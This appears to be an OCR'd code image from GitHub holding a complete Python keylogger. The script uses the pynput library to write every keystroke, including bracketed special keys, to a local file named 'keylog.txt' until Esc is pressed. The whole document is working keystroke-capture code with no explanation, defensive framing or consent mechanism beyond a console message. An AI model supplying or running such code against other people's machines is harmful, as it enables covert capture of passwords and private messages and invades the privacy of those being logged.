     from pynput.keyboard import Key, Listener

    log_file = "keylog.txt"

    def on_press(key):
        with open(log_file, "a") as log:
          try:
              log.write(f"{key.char}")
          except AttributeError:
              if key == Key.space:
                  log.write(" ")
              elif key == Key.enter:
                  log.write("\n")
              elif key == Key.tab:
                  log.write("\t")
              else:
                  log.write(f" [{key}] ")

    def on_release(key):
        if key == Key.esc:
            return False

    with Listener(on_press=on_press, on_release=on_release) as listener:
        print("Keylogger started. Press 'Esc' to stop.")
        listener.join()
